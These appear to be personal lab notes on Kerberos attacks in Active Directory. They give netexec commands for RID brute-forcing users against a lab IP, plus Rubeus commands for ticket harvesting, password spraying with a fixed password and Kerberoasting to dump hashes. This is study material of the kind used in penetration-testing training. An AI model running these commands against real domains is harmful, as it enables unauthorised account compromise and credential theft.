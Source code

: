 - Enumerating Users w/ netexec
    
    `netexec smb 10.129.40.46 -u 'guest' -p '' --rid-brute`
    
    ![Untitled](Kerberos%2019e1fb7cfcae407ea4abfedc45f563d7/Untitled.png)
    
- Harvesting Tickets w/ Rubeus
    
    Harvesting gathers tickets that are being transferred to the KDC and saves them for use in other attacks such as the pass the ticket attack.
    
    1.) `cd Downloads` - navigate to the directory Rubeus is in
    
    2.) `Rubeus.exe harvest /interval:30` - This command tells Rubeus to harvest for TGTs every 30 seconds
    
    ![https://i.imgur.com/VCeyyn9.png](https://i.imgur.com/VCeyyn9.png)
    
- Brute-Forcing / Password-Spraying w/ Rubeus
    
    `echo MACHINE_IP CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`
    
    1.) `cd Downloads` - navigate to the directory Rubeus is in
    
    2.) `Rubeus.exe brute /password:Password1 /noticket` - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user
    
    ![https://i.imgur.com/WN4zVo5.png](https://i.imgur.com/WN4zVo5.png)
    
- Kerberoasting w/ Rubeus
    
    1.) `cd Downloads` - navigate to the directory Rubeus is in
    
    2.) `Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users
    